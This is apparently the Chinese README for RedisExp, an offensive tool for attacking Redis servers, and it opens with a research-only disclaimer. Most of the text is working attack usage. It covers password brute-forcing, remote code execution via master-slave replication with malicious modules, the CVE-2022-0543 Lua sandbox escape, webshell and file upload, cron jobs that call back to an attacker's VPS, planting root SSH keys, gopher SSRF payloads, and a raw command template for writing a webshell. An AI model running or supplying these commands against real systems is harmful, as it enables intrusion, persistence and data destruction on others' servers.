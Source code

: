 ## Redis 漏洞利用工具


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------


```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

基本连接: 
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456

爆破 Redis 密码:
RedisExp.exe brute -r 目标IP -p 目标端口 -f 字典文件
RedisExp.exe brute -r 192.168.19.1 -f pass.txt

主从复制执行命令 (默认是交互式 shell)(Redis版本 4.x - 5.x):
RedisExp.exe -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port [-c whoami 单次执行]
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1 -c whoami (单次执行)
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1
RedisExp.exe rce -r 192.168.19.1 -L 127.0.0.1 -f exp.so (Linux)

主从复制文件上传 (windows 中文需要设置gbk)(Redis版本 4.x - 5.x):
RedisExp.exe -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port -d 目标路径 -f 目标文件名 -F 本地文件
RedisExp.exe upload -r 192.168.19.1 -L 127.0.0.1 -d c:\\中文\\ -f shell.php -F shell.txt -g
RedisExp.exe upload -r 192.168.19.1 -L 127.0.0.1 -f shell.php -F shell.txt

关闭主从复制
RedisExp.exe close -r 192.168.19.1

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe lua -r 192.168.19.6 -c whoami

备份写 Webshell: 
1. Windows 中文路径要设置gbk, linux 中文路径不用设置。
2. webshell的内容是base64，使用 -b 参数来解码。工具默认会关闭Redis压缩进行写入，写入后再恢复。

RedisExp.exe shell -r 目标IP -p 目标端口 -w 密码 -d 目标路径 -f 目标文件名 -s Webshell内容
RedisExp.exe shell -r 192.168.19.1 -d c:\\中文\\ -f shell.php -s "<?php phpinfo();?>" -g
RedisExp.exe shell -r 192.168.19.1 -d c:\\中文\\ -f shell.php -s "PD9waHAgcGhwaW5mbygpOz8+" -g -b

Linux 写计划任务:
RedisExp.exe cron -r 目标IP -p 目标端口 -w 密码 -L VpsIP -P VpsPort
RedisExp.exe cron -r 192.168.19.1 -L 127.0.0.1 -P 2222

Linux 写 SSH 公钥:
RedisExp.exe ssh -r 目标IP -p 目标端口 -w 密码 -n 用户名 -s 公钥
RedisExp.exe ssh -r 192.168.19.1 -u root -s "ssh-rsa AAAAB"

执行 Redis 命令:
RedisExp.exe cli -r 192.168.19.1

生成 gopher ssrf redis payload: 
RedisExp.exe gopher -f 1.txt

```

gopher 写webshell模板
```
flushall
config set dir /tmp
config set dbfilename shell.php
set 'webshell' '<?php phpinfo();?>'
save
```

关闭Redis压缩(写入乱码的时候可以关闭压缩，工具在写入shell的时候默认添加了关闭压缩，写入后再恢复开启压缩)
```
config set rdbcompression no
```


1. 具体命令使用 -h 来查看
2. exp.dll 和 exp.so 来自 https://github.com/0671/RabR 已经把内容分别加载到 dll.go 和 so.go 可以直接调用。
3. Windows 中文路径需要设置gbk，使用 -g 参数就可以了。
4. 在写入webshell的时候因为有一些特殊字符，可以使用把webshell进行 base64 编码，然后使用 -b 参数来解码



### 报错

```
工具报错：[ERR Error loading the extension. Please check the server logs.]        module load /tmp/exp.so

服务端报错：Module /tmp/exp.so failed to load: It does not have execute permissions.
```

有可能是 Redis 版本太高， exp.so 没有执行权限导致加载不了。具体需要查看服务端的报错



### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher
- [原创 Paper | Windows 与 Java 环境下的 Redis 利用分析](https://mp.weixin.qq.com/s/f7hPOoSSiRJpyMK51_Vxrw)



